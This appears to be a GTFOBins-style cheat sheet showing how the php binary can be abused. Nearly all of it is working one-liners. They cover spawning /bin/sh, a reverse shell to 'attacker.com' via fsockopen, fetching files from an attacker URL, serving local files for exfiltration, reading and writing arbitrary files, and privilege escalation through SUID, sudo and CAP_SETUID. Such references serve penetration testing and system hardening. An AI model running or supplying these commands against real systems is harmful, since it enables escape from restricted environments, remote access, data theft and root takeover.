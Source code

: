 # php

## **Shell**

It can be used to break out from restricted environments by spawning an interactive system shell.

```bash
- export CMD="/bin/sh"
php -r 'system(getenv("CMD"));'
- export CMD="/bin/sh"
php -r 'passthru(getenv("CMD"));'
- export CMD="/bin/sh"
php -r 'print(shell_exec(getenv("CMD")));'
- export CMD="/bin/sh"
php -r '$r=array(); exec(getenv("CMD"), $r); print(join("\\n",$r));'
- export CMD="/bin/sh"
php -r '$h=@popen(getenv("CMD"),"r"); if($h){ while(!feof($h)) echo(fread($h,4096)); pclose($h); }'
```

## **Command**

It can be used to break out from restricted environments by running non-interactive system commands.

```bash
export CMD="id"
php -r '$p = array(array("pipe","r"),array("pipe","w"),array("pipe", "w"));$h = @proc_open(getenv("CMD"), $p, $pipes);if($h&&$pipes){while(!feof($pipes[1])) echo(fread($pipes[1],4096));while(!feof($pipes[2])) echo(fread($pipes[2],4096));fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($h);}'
```

## **Reverse shell**

It can send back a reverse shell to a listening attacker to open a remote network access.

- Run `nc -l -p 12345` on the attacker box to receive the shell.
    
    ```
    export RHOST=attacker.com
    export RPORT=12345
    php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/bin/sh -i <&3 >&3 2>&3");'
    ```
    

## **File upload**

It can exfiltrate files on the network.

- Serve files in the local folder running an HTTP server. This requires PHP version 5.4 or later.
    
    ```
    LHOST=0.0.0.0
    LPORT=8888
    php -S $LHOST:$LPORT
    ```
    

## **File download**

It can download remote files.

- Fetch a remote file via HTTP GET request.
    
    ```
    export URL=http://attacker.com/file_to_get
    export LFILE=file_to_save
    php -r '$c=file_get_contents(getenv("URL"));file_put_contents(getenv("LFILE"), $c);'
    ```
    

## **File write**

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

- write data to a file, filename should be absolute.
    
    ```
    export LFILE=file_to_write
    php -r 'file_put_contents(getenv("LFILE"), "DATA");'
    ```
    

## **File read**

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```bash
export LFILE=file_to_read
php -r 'readfile(getenv("LFILE"));'
```

## **SUID**

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```bash
sudo install -m =xs $(which php) .
CMD="/bin/sh"
./php -r "pcntl_exec('/bin/sh', ['-p']);"
```

## **Sudo**

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
CMD="/bin/sh"
sudo php -r "system('$CMD');"
```

## **Capabilities**

If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

```bash
cp $(which php) .
sudo setcap cap_setuid+ep php
CMD="/bin/sh"
./php -r "posix_setuid(0); system('$CMD');"
```